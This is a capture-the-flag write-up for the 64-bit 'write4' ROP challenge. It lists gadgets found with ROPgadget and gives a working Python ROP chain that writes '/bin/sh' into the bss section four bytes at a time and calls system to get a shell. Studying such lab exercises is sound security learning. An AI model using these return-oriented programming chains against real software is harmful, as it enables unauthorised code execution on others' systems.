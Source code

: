 # write4 - 64 bit
in the previous challanges we had the luxury of not having to craft our own strings as they were in the binary itself.   
this time we are not so lucky.(as you can see, no "cat flag.txt")   
  
![start](https://user-images.githubusercontent.com/60041914/78295574-0670e580-7535-11ea-983a-d7ebbd104b72.png)
  
we are tasked with writing our string to some memory address, setting edi to that address and jumping to system in the PLT.   
(for some backround info feel free to check out some of my writeups for the previous challanges in the series)
   
using ROPgadget we find some interesting gadgets:   
```assembly_x86
0x0000000000400821 : mov dword ptr [rsi], edi ; ret
0x0000000000400893 : pop rdi ; ret
0x0000000000400891 : pop rsi ; pop r15 ; ret
```
"pop rdi , ret" could be used to set rdi.  
     
"pop rsi , pop r15 , ret" could be used to set rsi.    
(and r15 to some garbage value as it is unimportant) 
    
"mov dword ptr [rsi], edi , ret" writes the value of edi to the memory pointed to by rsi.  
    
so we have an arbitrary write. 
we just have to find somewhere to write to.
    
I chose someplace in the bss section as it is both readable and writeable.

having a second look at the gadgets I chose you might notice another thing:    
we can only write to memory 4 bytes at a time (edi-32 bits)    
because our desired string is 8 bytes ("/bin/sh\x00" ) we will need to preform 2 writes.   
   
knowing that we can now craft a ROP chain:
```python
STR_ADDR=0x006010b0
CALL_SYSTEM=0x004005e0
SET_RDI=0x00400893
SET_RSI=0x00400891
RDI_TO_pRSI=0x00400821

exploit=b'A'*40
exploit+=p64(SET_RSI)
exploit+=p64(STR_ADDR) # set rsi to the desired address
exploit+=p64(0x41414141) # r15 to a garbage value
exploit+=p64(SET_RDI)
exploit+=b"/bin\x00\x00\x00\x00" # set rdi to start of our string (with padding zeros)
exploit+=p64(RDI_TO_pRSI) # write memory
exploit+=p64(SET_RDI)
exploit+=b"/sh\x00\x00\x00\x00\x00" # set rdi to the end of our string
exploit+=p64(SET_RSI)
exploit+=p64(STR_ADDR+4) # place our string after the 4th character written
exploit+=p64(0x41414141) # r15 to a garbage value
exploit+=p64(RDI_TO_pRSI) # preform another write
exploit+=p64(SET_RDI)
exploit+=p64(STR_ADDR) # set rdi to point to our string
exploit+=p64(CALL_SYSTEM) #call system
```

pass it to our program.  
and...   
pwned.   
  
![pwned](https://user-images.githubusercontent.com/60041914/78295569-0375f500-7535-11ea-9a04-5bd70e08cee5.png)
